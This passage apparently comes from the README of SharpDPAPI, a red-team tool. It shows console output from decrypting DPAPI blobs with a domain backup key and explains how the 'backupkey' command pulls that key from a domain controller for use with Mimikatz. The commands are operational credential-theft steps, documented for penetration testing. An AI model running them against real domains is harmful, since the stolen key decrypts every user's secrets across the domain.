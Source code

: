  __ _ _ _ ___
 (_ |_ _. ._ ._ | \ |_) /\ |_) |
 __) | | (_| | |_) |_/ | /--\ | _|_
 |
 v1.5.0


 [*] Action: Describe DPAPI blob

 [*] Using CryptUnprotectData() for decryption.

 guidMasterKey : {0241bc33-44ae-404a-b05d-a35eea8cbc63}
 size : 314
 flags : 0x0
 algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
 description :
 dec(blob) : 01 00 00 00 3F 3F 3F 3F 01 15 3F 11 3F 7A 00 3F 4F 3F 3F ...


Using a domain DPAPI backup key to first decrypt any discoverable masterkeys:

 C:\Temp>SharpDPAPI.exe blob /target\Temp\blob2.bin /pvk:HvG1sAAAAAABAAAAAAAAAAAAAAC...(snip)...

 __ _ _ _ ___
 (_ |_ _. ._ ._ | \ |_) /\ |_) |
 __) | | (_| | |_) |_/ | /--\ | _|_
 |
 v1.5.0


 [*] Action: Describe DPAPI blob

 [*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!

 [*] User master key cache:

 {0241bc33-44ae-404a-b05d-a35eea8cbc63}:E7E481877B9D51C17E015EB3C1F72FB887363EE3

 guidMasterKey : {0241bc33-44ae-404a-b05d-a35eea8cbc63}
 size : 314
 flags : 0x0
 algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
 description :
 dec(blob) : 01 00 00 00 3F 3F 3F 3F 01 15 3F 11 3F 7A 00 3F 4F 3F 3F ...


#### backupkey

The **backupkey** command will retrieve the domain DPAPI backup key from a domain controller using the **LsaRetrievePrivateData** API approach [from Mimikatz](https/github.com/gentilkiwi/mimikatz/blob/2fd09bbef0754317cd97c01dbbf49698ae23d9d2/mimikatz/modules/kuhl_m_lsadump.c#L1882-L1927). This private key can then be used to decrypt master key blobs for any user on the domain. And even better, the key never changes

Domain admin (or equivalent) rights are needed to retrieve the key from a remote domain controller.

This base64 key blob can be decoded to a binary .pvk file that can then be used with Mimikatz' **dpapi::masterkey /in:MASTERKEY /pvk:backupkey.pvk** module, or used in blob/file /pvk:X form with the **masterkeys**, **credentials**, or **vault** SharpDPAPI commands.
